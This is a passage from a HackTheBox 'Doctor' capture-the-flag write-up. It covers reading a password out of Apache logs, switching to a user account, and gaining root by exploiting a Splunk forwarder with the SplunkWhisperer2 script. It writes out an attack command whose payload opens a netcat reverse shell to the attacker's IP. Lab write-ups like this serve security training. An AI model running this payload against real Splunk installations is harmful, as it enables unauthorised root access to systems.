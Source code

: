   ```
  web@doctor:/var/log/apache2$ cat backup | grep password 
  10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password" 
  ```

   

  Trying to login to shaun using the su command with this password gains us access to the shaun user and with it the user.txt flag.

  ```
  shaun@doctor:~$ wc -c user.txt
  33 user.txt
  ```

  ## Escalating to root

  Now we have access to the shaun user we need to access root. So I look back at all my recon from earlier and the one thing stands out is the Splunk service. First of all I run `ps aux` to see if the Splunk service is running as root.

  ```
  shaun@doctor:~$ ps aux | grep splunk
  root        1136  0.2  2.3 274128 93292 ?        Sl   16:16   0:56 splunkd -p 8089 start
  root        1138  0.0  0.3  77664 15900 ?        Ss   16:16   0:00 [splunkd pid=1136] splunkd -p 8089 start [process-runner]
  root      101592  0.0  0.0   2608   604 ?        S    16:47   0:00 /bin/sh -c /opt/splunkforwarder/etc/apps/_PWN_APP_/bin/pwn.bat
  root      101593  0.0  0.0   2608   604 ?        S    16:47   0:00 /bin/sh /opt/splunkforwarder/etc/apps/_PWN_APP_/bin/pwn.bat
  shaun    1456900  0.0  0.0  17668   664 pts/2    S+   23:02   0:00 grep --color=auto splunk
  
  ```

  As we can see from the command out both splunk and forwarder are running as root. After a quick google search I find that there is a remote code execution exploit for the splunk forwarder if we can successfully exploit this we will be to gain root access. Luckily there is a handy python script on github to be able to  exploit this (it can found here: https://github.com/cnotin/SplunkWhisperer2). using this script and the credentials we have already we able to get root access.

  ```
  python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost <YOUR IP> --lport <LISTENING PORT> --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh '<YOUR IP>' '<ATTACKING PORT>'"
  ```

  So, a quick breakdown of this command: You want to put the host of the machine, your IP so the script can connect back to you, a listening port as the script opens a web server to communicate with Splunk and finally the payload is the same one we used for the initial foothold earlier in the box.

  With that we have root access to the box and can get the root.txt flag!!

  ```
  root@doctor:/root# wc -c root.txt
  33 root.txt
  ```

  

  In conclusion this was a fun box where i learned a lot. The initial foothold was definitely the most difficult part of the box and I think  I'll take some things I learned and use them in the future. With that said i hope you enjoyed this writeup and happy hacking :). 

   

